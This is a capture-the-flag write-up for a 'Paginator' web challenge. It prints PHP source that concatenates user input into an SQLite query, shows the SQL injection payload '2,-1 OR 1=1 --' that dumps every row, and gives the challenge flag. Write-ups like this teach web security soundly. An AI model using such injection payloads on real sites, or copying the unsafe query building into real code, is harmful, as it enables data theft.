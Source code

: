 ## Question
There can't much go wrong with pagination, right?

## Solution 
Here we've been given a website which looks like this.
![image](https://github.com/user-attachments/assets/119d6828-2eea-4224-a1b9-c89052b8d4fc)

Source code:
```php
<?php
ini_set("error_reporting", 0);
ini_set("display_errors",0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php";

$db = new SQLite3('/tmp/db.db');
try {
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Flag', '" . base64_encode($FLAG) . "')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 3', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 4', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 5', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 6', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 7', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 8', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 9', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 10', 'This is not a flag, but just a boring page.')");
} catch(Exception $e) {
  //var_dump($e);
}


if(isset($_GET['p']) && str_contains($_GET['p'], ",")) {
  [$min, $max] = explode(",",$_GET['p']);
  if(intval($min) <= 1 ) {
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>
```
```html
<html>
    <head>
        <title>Paginator</title>
    </head>
    <body>
        <h1>Paginator</h1>
        <a href="/?p=2,10">Show me pages 2-10</a>
        <p>To view the source code, <a href="/?source">click here.</a>
    </body>
</html>
```

This is vulnerable to SQLi, and inserting the `?p=2,-1 OR 1=1 --` we get the flag in base64 encoded which when decoded we get the flag.
![image](https://github.com/user-attachments/assets/081f6cba-9b8d-4cab-b759-e34762d9f504)

`flag: ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}`

